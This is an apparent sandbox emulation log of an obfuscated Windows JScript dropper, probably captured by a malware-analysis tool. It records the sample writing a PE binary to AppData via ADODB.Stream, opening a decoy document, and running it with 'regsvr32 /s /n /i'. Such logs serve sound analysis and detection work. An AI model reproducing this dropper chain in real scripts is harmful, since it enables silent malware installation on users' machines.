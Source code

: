 ```
10 Oct 20:22:29 - >>> Silencing catch TypeError: nvmlxxyx3818.Get is not a function
    at nvmlxxyx31 (../try2/Function14.js:1:6806)
    at nvmlxxyx9727 (../try2/Function14.js:1:5108)
    at ../try2/Function14.js:1:8094
    at Script.runInContext (vm.js:142:18)
    at Object.runInContext (vm.js:293:6)
    at run_in_ctx (jailme.js:324:16)
    at Object.<anonymous> (jailme.js:359:20)
    at Module._compile (internal/modules/cjs/loader.js:1063:30)
    at Object.Module._extensions..js (internal/modules/cjs/loader.js:1092:10)
    at Module.load (internal/modules/cjs/loader.js:928:32)
10 Oct 20:22:29 - WScript.Shell[6].Run("C:\Users\User\AppData\Roaming\Microsoft\17939.doc", 1, 0)
10 Oct 20:22:30 - ActiveXObject(ADODB.Stream)
10 Oct 20:22:30 - new ADODB_Stream[11]
10 Oct 20:22:30 - ADODB_Stream[11].Open()
10 Oct 20:22:30 - ADODB_Stream[11].position = (number) '0'
10 Oct 20:22:30 - ADODB_Stream[11].type = (number) '2'
10 Oct 20:22:30 - ADODB_Stream[11].charset = (number) '437'
10 Oct 20:22:30 - ADODB_Stream[11].type.get() => (number) '2'
10 Oct 20:22:30 - ADODB_Stream[11].charset.get() => (number) '437'
10 Oct 20:22:30 - ADODB_Stream[11].charset.get() => (number) '437'
10 Oct 20:22:30 - ADODB_Stream[11].content = (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$???????PE??L???R??^???????????!???2???????????????????????????????????????????????????????????????????????????????????????????? ? ... (truncated)'
10 Oct 20:22:30 - ADODB_Stream[11].charset.get() => (number) '437'
10 Oct 20:22:30 - ADODB_Stream[11].WriteText(str) - 300546 bytes, encoding: 437
10 Oct 20:22:30 - ADODB_Stream[11].content.get() => (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$???????PE??L???R??^???????????!???2???????????????????????????????????????????????????????????????????????????????????????????? ? ... (truncated)'
10 Oct 20:22:30 - ADODB_Stream[11].size = (number) '300546'
10 Oct 20:22:30 - ADODB_Stream[11].SaveToFile(C:\Users\User\AppData\Roaming\Microsoft\4242.ocx, undefined)
10 Oct 20:22:30 - ADODB_Stream[11].content.get() => (object) 'MZ??????????????????????@???????????????????????????????????????????????!??L?!This program cannot be run in DOS mode.???$???????PE??L???R??^???????????!???2???????????????????????????????????????????????????????????????????????????????????????????? ? ... (truncated)'
10 Oct 20:22:30 - ADODB_Stream[11].Close()
10 Oct 20:22:30 - GetObject(winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2, undefined)
10 Oct 20:22:30 - new AutomationObject[12](winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2, undefined)
10 Oct 20:22:30 - >>> FIXME: AutomationObject[12](winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2, undefined)[Get] not defined
10 Oct 20:22:30 - >>> Silencing catch TypeError: nvmlxxyx4469.Get is not a function
    at nvmlxxyx31 (../try2/Function14.js:1:7698)
    at nvmlxxyx9727 (../try2/Function14.js:1:5108)
    at ../try2/Function14.js:1:8094
    at Script.runInContext (vm.js:142:18)
    at Object.runInContext (vm.js:293:6)
    at run_in_ctx (jailme.js:324:16)
    at Object.<anonymous> (jailme.js:359:20)
    at Module._compile (internal/modules/cjs/loader.js:1063:30)
    at Object.Module._extensions..js (internal/modules/cjs/loader.js:1092:10)
    at Module.load (internal/modules/cjs/loader.js:928:32)
10 Oct 20:22:30 - WScript.Shell[6].Run(regsvr32 /s /n /i "C:\Users\User\AppData\Roaming\Microsoft\4242.ocx", 1, 0)
10 Oct 20:22:30 - ==> Cleaning up sandbox.
10 Oct 20:22:30 - ==> Script execution finished, dumping sandbox environment to a file.
10 Oct 20:22:30 - The sandbox context has been  saved to: sandbox_dump_after.json
10 Oct 20:22:30 - Saving: output/Function[5].js
10 Oct 20:22:30 - Saving: output/C__Users_User_AppData_Roaming_Microsoft_17939.doc
10 Oct 20:22:30 - Saving: output/C__Users_User_AppData_Roaming_Microsoft_4242.ocx
```